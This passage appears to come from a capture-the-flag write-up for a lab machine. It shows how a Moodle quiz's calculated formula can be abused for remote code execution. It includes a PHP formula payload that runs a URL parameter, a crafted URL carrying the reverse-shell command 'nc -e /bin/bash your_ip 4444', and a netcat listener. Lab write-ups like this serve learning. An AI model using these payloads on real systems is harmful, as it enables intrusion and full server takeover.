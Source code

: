 ***
***

Reverse Shell
--------------


Now we need to find something(some page) that would let us either run our code or let us make change to existing pages, this will make sure that we can execute our `Reverse shell` code.

I simply googled `moodle exploit` and the first link I found was this(https://blog.ripstech.com/2018/moodle-remote-code-execution/).And this is the exact thing we need.

So basically we need to edit a quiz with a simple math calculated formula.
Something like

```php
/*{x}{a*/`$_GET[0]`/*(1)//}{a*/`$_GET[0]`/*({x})//}*/
```

![alt text](Images/formula.png)

You can fill anything in the `Question name` and `Question text`.
Save it and click `Next page` button without changing anything.

Then on next page you need to add `&0=(nc -e /bin/bash your_ip 4444)` in the end or the URL

**Here `your_ip` is your ip address. The one that you'll use for reverse shell.**

So basically the complete URL will become

```
http://10.10.10.153/moodle/question/question.php?returnurl=%2Fmod%2Fquiz%2Fedit.php%3Fcmid%3D7%26addonpage%3D0&appendqnumstring=addquestion&scrollpos=0&id=10&wizardnow=datasetitems&cmid=7&0=(nc -e /bin/bash your_ip 4444)
```

Before running this setup a netcat listener on port 4444 that can be done using the command

```bash
nc -nlvp 4444
```
The moment you enter that URL, you'll get the connection from the machine.

-------------------------------------------------------------------------------

-------------------------------------------------------------------------------

Own User
------
Using command like `whoami` you can see that that we are `www-data` and We are in `/var/www/html/moodle/question` directory.


[^1]: **The script used for backing up the courses folder can be found in /usr/bin folder by the name of backup.sh**